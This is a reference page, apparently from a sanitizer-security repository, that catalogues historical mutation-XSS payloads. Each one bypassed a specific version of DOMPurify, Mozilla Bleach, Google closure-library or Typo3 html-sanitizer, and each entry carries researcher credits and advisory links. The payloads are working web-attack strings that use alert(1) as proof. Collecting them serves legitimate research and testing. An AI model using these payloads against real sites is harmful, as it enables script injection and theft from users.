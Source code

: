 ```yaml
---
layout: page
title: Payload examples
---
```

This page contains some examples of payloads used to bypass sanitizers in the past. There are many other examples but to avoid redundancy we will add only ones that include new vectors or techniques.

## DomPurify

| Version | Payload                                                                                                                            | Credit                                             | Additional links                                                                                                                        |
|---------|----------------------------------------------------------------------------------------------------------------------------------  |----------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------|
| 2.0.0   | `<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">`                                                                    | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/dompurify-bypass-using-mxss/> |
| 2.0.17  | `<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>`                                                 | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/> |
| 2.0.17  | `<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">`     | Gareth Heyes [@garethheyes](https://twitter.com/garethheyes) | <https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss> |
| 2.0.17  | `<math><mtext><table><mglyph><style><math><table id=”</table>”><img src onerror=alert(1)”>`                                        | [@sqrtrev](https://twitter.com/sqrtrev) [@0xParrot](https://twitter.com/sqrtrev) @web_payload team [@GuesserSuper](https://twitter.com/GuesserSuper) | <https://twitter.com/0xsapra/status/1307929537749999616?ref_src=twsrc%5Etfw> |
| 2.2.0   | `<form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">`                        | Daniel Santos [@bananabr](https://twitter.com/bananabr) | <https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f>  |
| 2.2.3   | `<svg><xss><desc><noscript>&lt;/noscript>&lt;/desc>&lt;p>&lt;/p>&lt;style>&lt;a title="&lt;/style>&lt;img src onerror=alert(1)>">` | Michał Bentkowski [@SecurityMB](https://twitter.com/SecurityMB) | <https://twitter.com/SecurityMB/status/1341290687963262978> |
| 3.0.8   | `<svg><annotation-xml><foreignobject><style><!--</style><p id="--><img src='x' onerror='alert(1)'>">`                              | Kévin - Mizu [@kevin_mizu](https://twitter.com/kevin_mizu) | <https://mizu.re/post/playing-with-dompurify-ce-handling> |
| 3.1.0   | ```n = 506; var payload = `${"<div>".repeat(n)}<table id="outer"><caption id="outer"><svg><desc><table id="inner"><caption id="inner"></caption></table></desc><style><a title="</style><img src onerror=alert(1)>"></a></style></svg></caption></table>${"</div>".repeat(n)}`;``` | [icesfont](https://github.com/icesfont) | N/A |
| 3.1.7   | `<svg><a><foreignobject><a><table><a></table><style><!--</style></svg><a id="-><img src onerror=alert(1)>">.` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://x.com/kinugawamasato/status/1843687909431582830> |

## Mozilla Bleach

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 3.1.0   | `<noscript><style></noscript><img src=x onerror=alert(1)>`                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.1.1   | `<svg><style><img src=x onerror=alert(1)>`                                     | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://checkmarx.com/blog/vulnerabilities-discovered-in-mozilla-bleach/>  |
| 3.2.3   | `<math><p></p><style><!--</style><img src/onerror=alert(1)>--></style></math>` | Yaniv Nizry [@YNizry](https://twitter.com/YNizry)  | <https://github.com/mozilla/bleach/security/advisories/GHSA-vv2x-vrpj-qqpq> |

## Google closure-library

| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| v20190215   | `<noscript><p title="</noscript><img src=x onerror=alert(1)>">` | Masato Kinugawa [@kinugawamasato](https://twitter.com/kinugawamasato) | <https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa> <https://www.youtube.com/watch?v=lG7U3fuNw3A> |

## Typo3 html-sanitizer
| Version | Payload                                                                      | Credit              | Additional links                                                          |
|---------|------------------------------------------------------------------------------|---------------------|---------------------------------------------------------------------------|
| 2.0.15   |  `<!--a foo=--!><img src=x onerror=alert(1)><!--<a>">` | David Klein [@ncd_leeN](https://twitter.com/ncd_leeN) | [CVE-2022-36020](https://github.com/TYPO3/html-sanitizer/security/advisories/GHSA-47m6-46mj-p235) |
| 2.0.16   | `<![CDATA[<math><img src=x onerror=alert(1)>]]>`     | David Klein [@ncd_leeN](https://twitter.com/ncd_leeN) | [CVE-2022-23499](https://github.com/TYPO3/html-sanitizer/security/advisories/GHSA-hvwx-qh2h-xcfj) |

